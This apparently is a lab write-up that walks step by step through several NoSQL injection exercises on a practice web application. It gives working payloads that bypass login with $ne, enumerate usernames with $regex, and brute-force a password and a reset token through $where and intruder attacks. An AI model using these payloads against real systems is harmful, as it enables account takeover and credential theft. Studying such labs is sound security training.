


**Step1:**

Click on any categories


**Step2:**

Send the GET filter request to repeater


**Step3:**

Check the injection point using '


Now we use `\'`


So it is clear that NoSQL vulnerability exist

**Step4:**

Now we inject this payload to view all product '||1||'


And lab is solved


**Step1:**

Login in to your account using wiener:peter


Send the request to POST /login to repeater

**Step2:**

If we use  this payload it show id wiener in response. it is clear that password is not checking
```
{ "username": "wiener",

"password":{

"$ne":""

  }

}
```


**Step3:**

If we replace the above word with admin or administrator it is not showing any redirection


**Step4:**

To find username we using regex with the search that any username having adm in his name
```
{ "username": { "$regex": ".*adm.*" }, "password":{

"$ne":""

  }

}
```


**Step5:**

Now replace name with the response name and modify request to

```
{ "username": "adminhcijsjg3", "password":{

"$ne":""

  }

}
```


And open the request in browser it will solve.

Or paste session in inspect -> cookie value and refresh page and click on my-account button.


**Step1:**

First login with given credential


**Step2:**

Send the GET /user/lookup request to  repeater

**Step3:**

When I use ' ' it show error


If we use url encoded `'%2b'`


**Step4:**

Now we find password for administrator user

`administrator' && this.password.length < 30 || '1'=='2`


The result show password is less then 30

After some try I found password is 7 character.

This can be found using number payload in intruder

**Step4:**

To extract password we use

`administrator' && this.password[§0§]=='§a§`

Send the above request to intruder

Attack type: cluster bomb


Payload1 setting


Payload2 setting


**Step5**  
to find password first sord payload1 then sort length


We have password

Knzddwlw


**Step 1:**

Try to login with incorrect credential


Send post /login request to repeater


Now when we try to access carlos account with password  `{"$ne":"invalid"}` we have account lock message



Add a parameter where and set it value to `0`


We have incorrect username and password message

But when we change where to `1` we have account locked message


**Step2:**

Now send the Request to intruder and change `where` parameter value to


Select attack type cluster bomb

Payload1


Payload 2 


It is simple list of capital and small alphabet and number from 0-9

After the attack complete we have first parameter username


Now change the 1 to 2 in where clause `"$where": "Object.keys(this)[2].match('^.{§§}§§.*')"`. Again same attack


    
Now again but change 2 to 3

At 4 we have


Here the parameter is `forgotPwd`


Send the forgot password request to repeater when we add a parameter foo with value bar we have normal response


When we use forgotPwd with a value we have


It means parameter is correct but value is not.

Due to internet issue I have again state the lab so I will continue from here

Now we find reset token for this we make one change in where

```
"$where":"this.mytokenvalue.match('^.{§§}§§.*')"
"$where":"this.newPwdTkn.match('^.{§§}§§.*')"

```

With same payloads and attack type

When we sort by length we have


`newPwdTkn=b9557b7ca7f3600c`


**Step3:**

When we use GET /forgot password with this token we have password reset page


Open request in browser


Now login as carlos to solve the lab

